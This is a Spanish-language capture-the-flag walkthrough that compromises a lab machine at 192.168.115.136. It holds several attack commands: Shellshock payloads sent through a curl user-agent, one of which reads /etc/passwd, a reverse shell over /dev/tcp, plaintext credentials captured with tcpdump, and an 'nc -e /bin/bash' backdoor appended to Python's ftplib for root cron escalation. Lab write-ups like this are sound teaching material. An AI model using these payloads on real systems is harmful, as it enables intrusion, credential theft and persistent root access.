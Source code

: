 1. Escaneo de puertos 
```
nmap -p- --open -n --min-rate 5000 -sCS -vvv -Pn -oN ports 192.168.115.136
```
Impresión 
```
Discovered open port 21/tcp on 192.168.115.136
Discovered open port 22/tcp on 192.168.115.136
Discovered open port 80/tcp on 192.168.115.136
```

2. Buscar directorios dentro de la URL
```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://192.168.115.136/
```
Impresión
```
/cgi-bin/             (Status: 403) [Size: 280]
```
**Nota:** El directorio `/cgi-bin/` es especial destinado a alojar scripts de CGI (Common Gateway Interface). Estos scripts son programas que se ejecutan en el servidor web para generar contenido dinámico y procesar solicitudes del cliente.

3. Realizar nuevamente una búsqueda de directorios
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.115.136/cgi-bin
```
Impresión 
```
/underworld           (Status: 200) [Size: 62]
```

4. Buscar dentro URL
```
http://192.168.115.136/cgi-bin/underworld
```
Impresión 
```
16:45:35 up  1:06,  0 users,  load average: 0.05, 0.27, 0.95
```
**Nota:** Esta impresión hace alusión al comando `uptime` donde muestra la hora actual, el tiempo que lleva el equipo encendido, etc. 

**Nota:** Los scripts CGI, a menudo ubicados en el directorio `/cgi-bin/`, pueden invocar Bash para ejecutar comandos del sistema. Si un script CGI vulnerable pasa datos sin validación adecuada a Bash, un atacante podría explotar `Shellshock` para ejecutar omandos maliciosos en el servidor.

5. Buscando `Shellshock` en `exploit-db` encontré la siguiente
```
https://www.exploit-db.com/exploits/39887
```
Impresión 
```
VULNERABLE FILE
http://target.com//tarantella/cgi-bin/modules.cgi

POC :
localhost@~#curl -A "() { :; }; echo; /bin/cat /etc/passwd" http://target.com/tarantella/cgi-bin/modules.cgi > xixixi.txt

localhost@~#cat xixixi.txt
which will print out the content of /etc/passwd file.
```
**Nota:** Haciendo un `curl` al fichero objetivo es posible descargar el archivo `/etc/passwd`

6. Del mismo modo habilitar una ReverShell
```
> nc -nlvp 443
> curl -A "() { :; }; /bin/sh -i >& /dev/tcp/192.168.115.162/443 0>&1 " http://192.168.115.136/cgi-bin/underworld
```

7. Ver Grupos 
```
gruops
```
Impresión
```
cerberus www-data pcap
```
**Nota:** El grupo `pcap` generalmente está asociado con el uso de herramientas de captura de paquetes de red, como `tcpdump`, `Wireshark`. Lo cual incluye la posibilidad de capturar paquetes que pueden contener información sensible como contraseñas, cookies de sesión y otros datos privados.

8.  Interceptar el trafico que hay dentro de la maquina (El trafico entre usuario dentro de la misma maquina) `lo` es la interfaz de red que viaja dentro de la maquina.
```
tcpdump -i lo -w captura.cap
```
**Nota:** Que no imprima data en pantalla, no significa que no esta interceptando data.

9. Analizar la data 
```
cat captura.cap
```
**Nota:** Ahí hay varias cadenas de caracteres parecidas a...
```
hades
PTpZTfU4vxgzvRBE
```

 10. No podemos hacer `sudo` pero dentro del `/opt` corre el `ftpcliente` que los privilegiados de este recurso son
```
drwxr-x--- 2 root hades 4096 Apr  6  2020 ftpclient
```
Usar las credenciales con un puerto abierto relacionado como el `ssh`
```
ssh hades@192.168.115.136
```

11. Dentro del `/opt/ftpclient` hay dos archivos `ftpclient.py` y `statuscheck.txt`
```python
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()
```
**Nota:** Está pasando una contraseña de texto claro a través de la red local

```bash
HTTP/1.1 200 OK
Date: Mon, 24 Jun 2024 03:45:01 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 20 Jul 2019 05:19:54 GMT
ETag: "f1-58e15fe4052c8"
Accept-Ranges: bytes
Content-Length: 241
Vary: Accept-Encoding
Content-Type: text/html
```
**Nota:** Se ejecuta por root con cron, por lo que si se inyecta un shell la próxima vez que se ejecute por root, el shell de root explota, pero ftpclient.py es de solo lectura pero importa la biblioteca ftplib.

12. Buscar la librería para Insertar una ReverShell a la librería
```
find / -iname '*ftplib*' 2>/dev/null
```
Impresión
```
/usr/lib/python2.7/ftplib.pyc
/usr/lib/python2.7/ftplib.py
/usr/lib/python3.5/__pycache__/ftplib.cpython-35.pyc
/usr/lib/python3.5/ftplib.py
```

13. Insertar ReverShell en `python` 
```python
echo 'os.system("nc -e /bin/bash 192.168.115.162 443")' >> /usr/lib/python2.7/ftplib.py
```
Colocarse en escucha en el `443`
